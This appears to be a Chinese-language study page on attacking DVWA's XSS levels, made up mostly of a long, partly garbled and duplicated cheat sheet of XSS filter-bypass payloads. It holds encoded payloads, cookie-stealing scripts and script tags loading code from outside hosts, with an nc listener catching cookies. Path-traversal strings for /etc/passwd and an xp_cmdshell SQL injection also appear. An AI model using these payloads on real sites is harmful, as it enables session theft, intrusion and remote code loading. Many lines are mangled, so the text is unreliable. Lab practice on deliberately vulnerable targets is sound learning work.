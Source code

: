 http://192.168.56.1/DVWA/vulnerabilities/xss_d/?default=English<script>alert(%27提交成功！%27);location.href=%27https://www.jianshu.com/p/757626cec742%27;"%20response.end</script>


关于autofocus的属性
：autofocus 属性是一个布尔属性。
autofocus 属性规定当页面加载时 <input> 元素应该自动获得焦点。
焦点的意思就是被选中，和文本框相似，

<button type="button" autofocus="autofocus">

点击这里</button>当页面加载完成之后，这个按钮会被选中
autofocus 属性是一个布尔属性。
autofocus 属性规定当页面加载时 <input> 元素应该自动获得焦点。
1 2 3 4
<!-- These all work! --> <input autofocus="autofocus" /> <button autofocus="autofocus">Hi!</button> <textarea autofocus="autofocus"></textarea>
当有了autofocus属性，这些 INPUT, TEXTAREA, 或 BUTTON元素都能在页面加载是被选中。但如果使用纯显示元素，例如H1标记，autofocus属性并不好用。
这个属性在某些情况下非常有用。例如谷歌的首页，人们99%的时间都是用它来搜索，所以页面一旦加载，光标必然定位在输入框里。以前需要使用JavaScript才能完成，现在完全不需要了，html自己就能完成。


在html中 onfocus事件表示   事件在对象获得焦点时发生。

https://www.runoob.com/try/try.php?filename=tryjsref_onfocus
1.反射型XSS漏洞

在medium中 对代码进行了过滤，可以直接用双写 绕过！
输入

<sc<script>ript>alert(/xss/)</script>


，成功弹框：
相应的 XSS 链接：
http://<IP地址!!!>/dvwa/vulnerabilities/xss_r/?name=%3Csc%3Cscript%3Eript%3Ealert%28%2Fxss%2F%29%3C%2Fscript%3E#
其中使用url翻译：http://tool.chinaz.com/tools/urlencode.aspx

也可以通过大小写混淆写通过：
输入<ScRipt>alert(/xss/)</script>，<ScRipt>alert(/网安2019/)</script>成功弹框：网安2019国庆70周年网络安全保障行动
<ScRipt>alert(/网安2019国庆70周年网络安全保障行动/)</script>
<ScRipt>alert(/wangan2019guoqing?70zhounianwangluoanquanbaozhangxingdongL?/)</script>
相应的 XSS 链接（转码为url）：http://<IP地址!!!>/dvwa/vulnerabilities/xss_r/?name=%3CScRipt%3Ealert%28%2Fxss%2F%29%3C%2Fscript%3E#


但是在high中

过滤了很多代码，使得<script> 注入XSS代码无法使用。只能通过 其他方法
具体见上文

<input onfocus="https://www.baidu.com/" autofocus>


2.存储型XSS漏洞
对输入并没有做 XSS 方面的过滤与检查，且存储在数据库中，因此这里存在明显的存储型 XSS 漏洞


```

medium：

所以可以直接使用双写，大小写混写等直接绕过！
很垃圾：
双写绕过
直接修改前端代码改 name 参数为 

```
<sc<script>ript>alert(/xss/)</script>
<script>alert(/xss/)</script>
```
 ,成功弹框
大小写混淆绕过
直接修改前端代码改 name 参数为

```
 <script>alert(1)</script> ,
 ```
 成功弹框

javas&Tab;crip:\u0061lert&#x28;1&#x29
<a hret="javascript:\u0061lert&#x28;1&#x29">
<img src="javas&Tab;crip:\u0061lert(1)">
<img src="javas&Tab;crip:\u0061lert&#x28;1&#x29;">

利用top

```html
<a top[al+ert](1);>
```



high的代码很有效的过滤了所有  script的标签，但是，他旺旺没想到，魔高一尺道高一丈，你大爷永远是你大爷：

可以看到，这里使用正则表达式过滤了 <script> 标签，但是却忽略了 img、iframe 等其它危险的标签，因此 name 参数依旧存在存储型 XSS。
漏洞利用
直接修改前端代码改 name 参数为 

```

 jquery-1.7.1~1.8.3
    jquery-1.6.min.js，jquery-1.6.1.min.js，jquery-1.6.2.min.js
    jquery-1.5所有版本
    jquery-1.4所有版本
    jquery-1.3所有版本
    jquery-1.2所有版本

<img src=1 onerror=alert(网安2020)> ,

```

成功弹框

http://localhost/#<img src=/ οnerrοr=alert(1)>


3.DOM型xss漏洞
DOM型XSS其实是一种特殊类型的反射型XSS，它是基于DOM文档对象模型的一种漏洞。


当页面到达浏览器时浏览器会为页面创建一个顶级的Document object文档对象，接着生成各个子文档对象，每个页面元素对应一个文档对象，每个文档对象包含属性、方法和事件。可以通过JS脚本对文档对象进行编辑从而修改页面的元素。也就是说，客户端的脚本程序可以通过DOM来动态修改页面内容，从客户端获取DOM中的数据并在本地执行。基于这个特性，就可以利用JS脚本来实现XSS漏洞的利用。
利用创建元素createElement()：
以DVWA反射型XSS为例，先在Kali监听1234端口：
nc -nvlp 1234

意在截取1234端口的cookie值。


XSS注入常用语句（整理）

```html

首先输入 

```
< > ' " = : ; 
```
查看这些东西有什么是被过滤了的符号或者替换了
```

**Ascii码绕过**
<img src="a" onerror="eval(String.fromCharCode(97,108,101,114,116,40,34,120,115,115,34,41,59))">

**hex绕过**

<img src=a onerror=eval('\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29')>

**八进制**

<img src=a onerror=alert('\170\163\163')>

**base64绕过**
<img src="a" onerror="eval(atob('ZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly93d3cuYmFpZHUuY29tJw=='))">

<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
```

```
<img src=x onerror=alert(0)>

alert（document.domain）" location 。href = " javascript：alert（document.domain）"

"onclick=alert(1)"

<script>alert('xss');</script> //经典语句，哈哈！

>"'><img src="javascript:alert('XSS')">

'><a hret="javascript:alert(1)">

'><a hret="javascr&#x69pt:alert(1)">

>"'><script>alert('XSS')</script>

<table background='javascript.:alert(([code])'></table>

<object type=text/html data='javascript.:alert(([code]);'></object>

"+alert('XSS')+"

'><script>alert(document.cookie)</script>

='><script>alert(document.cookie)</script>

<script>alert(document.cookie)</script>

<script>alert(vulnerable)</script>

<s&#99;ript>alert('XSS')</script>

<img src="javas&#99;ript:alert('XSS')">

%0a%0a<script>alert(\"Vulnerable\")</script>.jsp

%3c/a%3e%3cscript%3ealert(%22xss%22)%3c/script%3e

%3c/title%3e%3cscript%3ealert(%22xss%22)%3c/script%3e

%3cscript%3ealert(%22xss%22)%3c/script%3e/index.html

<script>alert('Vulnerable')</script>

a.jsp/<script>alert('Vulnerable')</script>

"><script>alert('Vulnerable')</script>

<IMG SRC="javascript.:alert('XSS');">

<IMG src="/javascript.:alert"('XSS')>

<IMG src="/JaVaScRiPt.:alert"('XSS')>

<IMG src="/JaVaScRiPt.:alert"(&quot;XSS&quot;)>

<IMG SRC="jav&#x09;ascript.:alert('XSS');">

<IMG SRC="jav&#x0A;ascript.:alert('XSS');">

<IMG SRC="jav&#x0D;ascript.:alert('XSS');">

"<IMG src="/java"\0script.:alert(\"XSS\")>";'>out

<IMG SRC=" javascript.:alert('XSS');">

<SCRIPT>a=/XSS/alert(a.source)</SCRIPT>

<BODY BACKGROUND="javascript.:alert('XSS')">

<BODY ONLOAD=alert('XSS')>

<IMG DYNSRC="javascript.:alert('XSS')">

<IMG LOWSRC="javascript.:alert('XSS')">

<BGSOUND SRC="javascript.:alert('XSS');">

<br size="&{alert('XSS')}">

<LAYER SRC="http://xss.ha.ckers.org/a.js"></layer>

<LINK REL="stylesheet"HREF="javascript.:alert('XSS');">

<IMG SRC='vbscript.:msgbox("XSS")'>

<META. HTTP-EQUIV="refresh"CONTENT="0;url=javascript.:alert('XSS');">

<IFRAME. src="/javascript.:alert"('XSS')></IFRAME>

<FRAMESET><FRAME. src="/javascript.:alert"('XSS')></FRAME></FRAMESET>

<TABLE BACKGROUND="javascript.:alert('XSS')">

<DIV STYLE="background-image: url(javascript.:alert('XSS'))">

<DIV STYLE="behaviour: url('http://www.how-to-hack.org/exploit.html&#39;);">

<DIV STYLE="width: expression(alert('XSS'));">

<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>

<IMG STYLE='xss:expre\ssion(alert("XSS"))'>

<STYLE. TYPE="text/javascript">alert('XSS');</STYLE>

<STYLE. TYPE="text/css">.XSS{background-image:url("javascript.:alert('XSS')");}</STYLE><A CLASS=XSS></A>

<STYLE. type="text/css">BODY{background:url("javascript.:alert('XSS')")}</STYLE>

<BASE HREF="javascript.:alert('XSS');//">

getURL("javascript.:alert('XSS')")

a="get";b="URL";c="javascript.:";d="alert('XSS');";eval(a+b+c+d);

<XML SRC="javascript.:alert('XSS');">

"> <BODY NLOAD="a();"><SCRIPT>function a(){alert('XSS');}</SCRIPT><"

<SCRIPT. SRC="http://xss.ha.ckers.org/xss.jpg"></SCRIPT>

<IMG SRC="javascript.:alert('XSS')"

<SCRIPT. a=">"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>

<SCRIPT.=">"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>

<SCRIPT. a=">"''SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>

<SCRIPT."a='>'"SRC="http://xss.ha.ckers.org/a.js"></SCRIPT>

<SCRIPT>document.write("<SCRI");</SCRIPT>PTSRC="http://xss.ha.ckers.org/a.js"></SCRIPT>

<A HREF=http://www.gohttp://www.google.com/ogle.com/>link</A>
```
'"()&%<acx><ScRiPt >prompt(915149)</ScRiPt>
 
<svg/οnlοad=alert(1)>
 
<script>alert(document.cookie)</script>
 
'><script>alert(document.cookie)</script>
 
='><script>alert(document.cookie)</script>
 
<script>alert(vulnerable)</script>
 
%3Cscript%3Ealert('XSS')%3C/script%3E
 
<script>alert('XSS')</script>
 
<img src="javascript:alert('XSS')">
 
%0a%0a<script>alert(\"Vulnerable\")</script>.jsp
 
%22%3cscript%3ealert(%22xss%22)%3c/script%3e
 
%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
 
%2E%2E/%2E%2E/%2E%2E/%2E%2E/%2E%2E/windows/win.ini
 
%3c/a%3e%3cscript%3ealert(%22xss%22)%3c/script%3e
 
%3c/title%3e%3cscript%3ealert(%22xss%22)%3c/script%3e
 
%3cscript%3ealert(%22xss%22)%3c/script%3e/index.html
 
<script>alert('Vulnerable');</script>
 
<script>alert('Vulnerable')</script>
 
a.jsp/<script>alert('Vulnerable')</script>
 
a?<script>alert('Vulnerable')</script>
 
"><script>alert('Vulnerable')</script>
 
';exec%20master..xp_cmdshell%20'dir%20 c:%20>%20c:\inetpub\wwwroot\?.txt'--&&
 
%22%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E
 
%3Cscript%3Ealert(document. domain);%3C/script%3E&
 
%3Cscript%3Ealert(document.domain);%3C/script%3E&SESSION_ID={SESSION_ID}&SESSION_ID=
 
<IMG src="javascript:alert('XSS');">
 
<IMG src=javascript:alert('XSS')>
 
<IMG src=JaVaScRiPt:alert('XSS')>
 
<IMG src=JaVaScRiPt:alert("XSS")>
 
<IMG src=javascript:alert('XSS')>
 
<IMG src=javascript:alert('XSS')>
 
<IMG src=javascript:alert('XSS')>
 
<IMG src="jav ascript:alert('XSS');">
 
<IMG src="jav ascript:alert('XSS');">
 
<IMG src="jav ascript:alert('XSS');">
 
"<IMG src=java\0script:alert(\"XSS\")>";' > out
 
<IMG src=" javascript:alert('XSS');">
 
<SCRIPT>a=/XSS/alert(a.source)</SCRIPT>
 
<BODY BACKGROUND="javascript:alert('XSS')">
 
<BODY ONLOAD=alert('XSS')>
 
<IMG DYNSRC="javascript:alert('XSS')">
 
<IMG LOWSRC="javascript:alert('XSS')">
 
<BGSOUND src="javascript:alert('XSS');">
 
<br size="&{alert('XSS')}">
 
<LAYER src="http://xss.ha.ckers.org/a.js"></layer>
 
<LINK REL="stylesheet" href="javascript:alert('XSS');">
 
<IMG src='vbscript:msgbox("XSS")'>
 
<IMG src="mocha:[code]">
 
<IMG src="livescript:[code]">
 
<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">
 
<IFRAME src=javascript:alert('XSS')></IFRAME>
 
<FRAMESET><FRAME src=javascript:alert('XSS')></FRAME></FRAMESET>
 
<TABLE BACKGROUND="javascript:alert('XSS')">
 
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
 
<DIV STYLE="behaviour: url('http://www.how-to-hack.org/exploit.html');">
 
<DIV STYLE="width: expression(alert('XSS'));">
 
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
 
<IMG STYLE='xss:expre\ssion(alert("XSS"))'>
 
<STYLE TYPE="text/javascript">alert('XSS');</STYLE>
 
<STYLE TYPE="text/css">.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A class="XSS"></A>
 
<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>
 
<BASE href="javascript:alert('XSS');//">
 
getURL("javascript:alert('XSS')")
 
a="get";b="URL";c="javascript:";d="alert('XSS');";eval(a+b+c+d);
 
<XML src="javascript:alert('XSS');">
 
"> <BODY><SCRIPT>function a(){alert('XSS');}</SCRIPT><"
 
<SCRIPT src="http://xss.ha.ckers.org/xss.jpg"></SCRIPT>
 
<IMG src="javascript:alert('XSS')"
```

<!--#exec cmd="/bin/echo '<SCRIPT SRC'"--><!--#exec cmd="/bin/echo
'=http://xss.ha.ckers.org/a.js></SCRIPT>'"-->
```

<IMG src="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode">
 
<SCRIPT a=">" src="http://xss.ha.ckers.org/a.js"></SCRIPT>
 
<SCRIPT =">" src="http://xss.ha.ckers.org/a.js"></SCRIPT>
 
<SCRIPT a=">" '' src="http://xss.ha.ckers.org/a.js"></SCRIPT>
 
<SCRIPT "a='>'" src="http://xss.ha.ckers.org/a.js"></SCRIPT>
 
<SCRIPT>document.write("<SCRI");</SCRIPT>PT src="http://xss.ha.ckers.org/a.js"></SCRIPT>
 
<A href=https://www.baidu.com/>link</A>
 
<IMG SRC=javascript:alert(‘XSS’)>
 
<IMG SRC=# οnmοuseοver=”alert(‘xxs’)”>
 
<IMG SRC=/ οnerrοr=”alert(String.fromCharCode(88,83,83))”></img>
 
<img src=x οnerrοr=”&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041″>
 
<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>
 
<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
 
<IMG SRC=”jav ascript:alert(‘XSS’);”>
 
<IMG SRC=”jav&#x0A;ascript:alert(‘XSS’);”>
 
<IMG SRC=” &#14;  javascript:alert(‘XSS’);”>
 
<<SCRIPT>alert(“XSS”);//<</SCRIPT>
 
<IMG SRC=”javascript:alert(‘XSS’)”
 
</script><script>alert(‘XSS’);</script>
 
<INPUT TYPE=”IMAGE” SRC=”javascript:alert(‘XSS’);”>
 
<BODY BACKGROUND=”javascript:alert(‘XSS’)”>
 
<svg/οnlοad=alert('XSS')>
 
<IMG SRC=’vbscript:msgbox(“XSS”)’>
 
<BGSOUND SRC="javascript:alert('XSS');">
 
<BR SIZE="&{alert('XSS')}">
 
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">
 
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
 
<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">
 
<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>
 
<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>
 
<XSS STYLE="behavior: url(xss.htc);">
 
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>
 
<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>
 
<TABLE><TD BACKGROUND="javascript:alert('XSS')">
 
<DIV STYLE="width: expression(alert('XSS'));">
 
<SCRIPT a=">" SRC="httx://xss.rocks/xss.js"></SCRIPT>

**绕waf**




